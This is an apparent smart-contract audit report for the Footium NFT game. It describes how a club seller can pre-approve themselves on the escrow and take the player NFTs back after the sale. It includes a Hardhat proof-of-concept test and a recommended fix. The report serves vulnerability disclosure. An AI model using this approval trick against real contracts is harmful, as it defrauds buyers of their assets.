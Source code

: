 PokemonAuditSimulator

high

# Risk of the previous owner taking all the players from the new owner when a club is traded

## Summary

Because of how player NFTs are stored, it is highly feasible for the previous owner of a club to authorize themselves as the operator of these NFTs shortly before selling the club. They could then easily steal the NFTs from the escrow after the ownership of the club has been transferred.

## Vulnerability Detail

The issue at hand arises from the fact that clubs are represented as ERC721 tokens, which grants the token holder ownership and control over the associated escrow contract. However, the problem lies with the ownership of player NFTs. Unlike clubs, player NFTs are not directly owned by the user, but by the club escrow.

When an ERC721 token, such as a player NFT, is traded using the "transfer()" or "transferFrom()" functions, the approved operator is removed, and the NFT becomes the sole property of the new owner. However, because player NFTs and other assets related to the club are stored in the escrow, the ownership of these assets does not actually change during the transfer of the escrow ownership, and their operators do not get reset either. Instead, only the escrow's administrator changes.

This creates a vulnerability when clubs are sold on regular NFT marketplaces such as OpenSea or LooksRare. The previous club owner could easily authorize themselves as the operator of the player NFTs just before transferring ownership of the club. This allows them to steal the NFTs from the escrow once the transfer is complete.

Let's take a look at how this scenario could unfold:

Malicious Alice acquires a club with 20 player NFTs and enjoys playing with it for a while.

Malicious Alice lists her club NFT for sale on OpenSea, still containing all of the player NFTs in its associated escrow contract. Prior to the sale, she approves herself as the operator of the escrow contract's assets.

Innocent Bob comes across the listing and decides to purchase the club NFT for a certain amount of ETH.

Malicious Alice then proceeds to transfer all of the player NFTs and other assets held in the escrow contract to her own wallet, effectively stealing them.

As a result, Innocent Bob is left with only the club NFT, without any of the player NFTs that were originally associated with it.

## Impact

This leads to the new owner being scammed out of the players of the club NFT they have bought.

## Code Snippet

**[[FootiumEscrow.sol/L75-L81]](https://github.com/sherlock-audit/2023-04-footium/blob/main/footium-eth-shareable/contracts/FootiumEscrow.sol#L75-L81)**

[**[FootiumEscrow.sol/L90-L96]**](https://github.com/sherlock-audit/2023-04-footium/blob/main/footium-eth-shareable/contracts/FootiumEscrow.sol#L90-L96)

Here is a working Proof of Concept (PoC) using Hardhat:

```jsx
it("Should steal all players", async () => {
        const TOKEN_ID = 1;

        let maliciousAlice, innocentBob;

        [, , maliciousAlice, innocentBob] = await ethers.getSigners();

        //maliciousAlice gets minted a club, and the escrow contract with 20 player NFTs is created.
        await expect(clubMinter.mint(maliciousAlice.address, TOKEN_ID))
            .to.emit(clubs, "Transfer")
            .withArgs(ZERO_ADDRESS, maliciousAlice.address, TOKEN_ID);

        //here we get the escrow contract
        const escrowAddress = await clubs.clubToEscrow(TOKEN_ID);
        const escrow = await ethers.getContractAt(
            "FootiumEscrow",
            escrowAddress
        );

        //here before the sell maliciousAlice approved herself for all the players in the contract
        await escrow
            .connect(maliciousAlice)
            .setApprovalForERC721(
                players.address,
                maliciousAlice.address,
                true
            );

        //maliciousAlice sells the club to innocentBob
        await clubs
            .connect(maliciousAlice)
            .transferFrom(
                maliciousAlice.address,
                innocentBob.address,
                TOKEN_ID
            );

        const balanceBefore = await players.balanceOf(maliciousAlice.address);

        // 0 because she hasn't stolen them yet.
        expect(balanceBefore).to.be.eq(0);

        //maliciousAlice backruns the sell transaction and transfers all the players to herself.
        for (let i = 0; i < 20; i++) {
            await players
                .connect(maliciousAlice)
                .transferFrom(escrow.address, maliciousAlice.address, i);
        }

        const balanceAfter = await players.balanceOf(maliciousAlice.address);

        //20 from the first mint and 20 from the second mint
        expect(balanceAfter).to.be.eq(20);
    });
```

## Tool used

Manual Review, Hardhat

## Recommendation

We propose implementing a variation of the following solution:

One possible implementation is to keep a record of all authorized operators in a mapping stored within the escrow contract. This can be achieved by extending the functions "transfer()", "safeTransfer()", "transferFrom()", and "safeTransferFrom()" of the ClubNFT contract. These extended functions will call the escrow contract, which in turn will revoke all the authorized operators stored in the mapping before transferring the NFT to the new owner.
